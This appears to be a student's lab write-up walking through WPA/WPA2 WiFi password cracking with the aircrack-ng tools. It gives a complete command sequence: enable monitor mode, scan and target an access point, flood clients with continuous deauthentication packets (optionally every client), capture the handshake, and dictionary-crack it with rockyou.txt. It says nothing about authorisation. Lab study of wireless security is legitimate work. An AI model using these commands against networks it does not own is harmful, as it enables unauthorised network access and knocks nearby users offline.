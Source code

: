 # Name: Abhinav Ganeshan

# Reg no: 22BCI0013

### Step 1: Identify Your Wireless Interface

First, we need to identify our wireless interface:

```bash
lsusb
```

This command lists all USB devices connected to your computer, which helps identify your wireless adapter.

<img src='/screenshots/1.png'>

```bash
iwconfig
```

This command shows all wireless interfaces.

<img src='/screenshots/2.png'>

### Step 2: Enable Monitor Mode

By default, wireless cards operate in "managed" mode, which only processes packets addressed to your device. We need to switch to "monitor" mode to capture all packets in the air.

```bash
airmon-ng start wlan0
```

Replace `wlan0` with your actual interface name. After executing this command, your interface name might change to something like `wlan0mon`.

```bash
iwconfig
```

Look for "Mode:Monitor" in the output for your wireless interface.

<img src='/screenshots/3.png'>

### Step 3: Scan for WiFi Networks

Now we'll scan for available WiFi networks:

```bash
airodump-ng wlan0mon
```

This will display all WiFi networks in range. The output includes:

- BSSID (MAC address of the access point)
- PWR (signal strength)
- Beacons (number of announcements from AP)
- #Data (number of captured data packets)
- CH (channel)
- MB (maximum speed supported)
- ENC (encryption type, such as WEP, WPA, or WPA2)
- ESSID (network name)

<img src='/screenshots/4.png'>

### Step 4: Target a Specific Network

Once you've identified your target network, press CTRL+C to stop the scan. Now we'll focus on capturing data from a specific network:

```bash
airodump-ng -c [channel] -w [filename] --bssid [target_bssid] wlan0mon
```

For example:

```bash
airodump-ng -c 2 -w capture --bssid 00:11:22:33:44:55 wlan0mon
```

Where:

- `-c 2` specifies channel 2
- `-w capture` saves the capture to files prefixed with "capture"
- `--bssid 00:11:22:33:44:55` filters for the specific access point

Leave this terminal window running to capture packets.

<img src='/screenshots/5.png'>

### Step 5: Capture the WPA/WPA2 Handshake

To crack a WPA/WPA2 network, we need to capture the 4-way handshake that occurs when a client connects to the network. We can force a reconnection using a deauthentication attack:

Open a new terminal window and run:

```bash
aireplay-ng --deauth 0 -a [target_bssid] -c [client_bssid] wlan0mon
```

For example:

```bash
aireplay-ng --deauth 0 -a 00:11:22:33:44:55 -c AA:BB:CC:DD:EE:FF wlan0mon
```

Where:

- `--deauth 0` sends continuous deauthentication packets (use a number like 10 for a limited number)
- `-a 00:11:22:33:44:55` is the MAC address of the access point
- `-c AA:BB:CC:DD:EE:FF` is the MAC address of a connected client

<img src='/screenshots/6.png'>

If you don't have a client MAC address, you can omit the `-c` parameter to deauthenticate all clients.

Once you see "WPA handshake: [BSSID]" in the airodump-ng window, you've successfully captured the handshake. You can now press CTRL+C in both terminal windows to stop the capture and deauthentication.

<img src='/screenshots/7.png'>

### Step 6: Crack the Password

Now we'll use aircrack-ng to crack the password using a dictionary attack:

```bash
aircrack-ng [capture_file] -w [wordlist]
```

For example:

```bash
aircrack-ng capture-01.cap -w /usr/share/wordlists/rockyou.txt
```

The rockyou.txt wordlist is a common password list available on Kali Linux. If the password is in the wordlist, aircrack-ng will eventually find it.

<img src='/screenshots/8.png'>

<img src='/screenshots/9.png'>

### Step 7: Analyzing Captured Data

You can use Wireshark to analyze the captured packets:

```bash
wireshark capture-01.cap
```

This allows you to inspect the handshake and other network traffic.

### Disabling Monitor Mode

When you're done, return your wireless interface to managed mode:

```bash
airmon-ng stop wlan0mon
```

